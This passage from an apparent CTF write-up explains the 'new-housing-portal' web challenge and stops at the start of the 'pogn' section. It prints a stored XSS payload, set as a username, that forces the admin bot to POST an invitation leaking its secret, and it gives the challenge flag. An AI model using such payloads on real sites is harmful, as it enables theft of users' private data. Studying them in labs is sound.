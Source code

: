 ```js
  $all('button').forEach((button) => {
    button.addEventListener('click', () => {
      alert('Sorry! The System is under load, cannot accept invite!');
    })
  });
})();
```
{: file="request/index.js" }

In order to view a user's `deepestDarkestSecret`. That user has to send us an invitation. An invitation can be send with the following api:
```js
app.post('/finder', needsLogin, (req, res) => {
  const username = req.body.username?.trim();

  if (!users.has(username)) {
    res.redirect('/finder?err=' + encodeURIComponent('username does not exist'));
    return;
  }

  users.get(username).invitations.push({
    from: res.locals.user.username,
    deepestDarkestSecret: res.locals.user.deepestDarkestSecret
  });

  res.redirect('/finder?msg=' + encodeURIComponent('invitation sent!'));
});
```
{: file="server.js" }

So, in order to view the `deepestDarkestSecret` of `samy`. We need `samy` to send us an invitation.

Since we already got XSS, we can modify it to send a POST request to the `/finder` endpoint to send an invitation to the attacker.

Create a new user `Dat4Phit` with `name` equal the following payload:
```html
<img src=x onerror=fetch("https://new-housing-portal.chall.lac.tf/finder",{method:"POST",mode:"no-cors",cache:"no-cache",credentials:"same-origin",headers:{"Content-Type":"application/x-www-form-urlencoded"},body:"username=Dat4Phit"}) />
```
After that send the following link to the admin bot: `https://new-housing-portal.chall.lac.tf/finder/?q=Dat4Phit`.

Log into the account `Dat4Phit` and check the invitation tab.

![flag](new-housing-flag.png)

**Flag:** lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}

## pogn
This time, a websocket pong game.

![website](pogn-1.png)
